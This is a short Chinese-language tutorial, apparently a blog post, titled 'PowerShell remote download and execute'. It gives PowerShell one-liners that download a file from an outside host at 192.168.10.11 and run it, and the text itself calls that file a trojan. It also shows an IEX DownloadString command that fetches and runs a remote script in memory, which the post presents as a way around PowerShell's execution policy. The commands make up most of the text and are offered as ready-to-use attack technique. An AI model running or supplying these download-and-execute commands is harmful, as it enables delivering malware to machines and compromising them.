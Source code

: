 


![](https://img-blog.csdnimg.cn/20191112093541565.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)



### **PowerShell远程下载文件并执行**



**cmd窗口下载文件**



管理员权限才可以下载到C盘目录下，普通权限不能下在到C盘下。DownloadFile函数必须提供两个参数



```
#下载文件到指定目录      
powershell (new-object system.net.webclient).downloadfile('http://192.168.10.11/test.exe','d:/test.exe');       
#下载文件到当前目录      
powershell (new-object system.net.webclient).downloadfile('http://192.168.10.11/test.exe','test.exe');
```




![](https://img-blog.csdnimg.cn/2019111722062867.png)



**cmd窗口下载文件并执行(exe)**



远程下载木马文件并执行



```
powershell (new-object system.net.webclient).downloadfile('http://192.168.10.11/test.exe','test.exe');start-process test.exe
```




**cmd窗口下载文件并执行(powershell脚本)** 



远程下载 test.ps1 脚本，直接执行，该命令可以绕过powershell的执行策略。



```
powershell -c IEX (New-Object System.Net.Webclient).DownloadString('http://192.168.10.11/test.ps1')
```




![](https://img-blog.csdnimg.cn/20191117161140975.png)


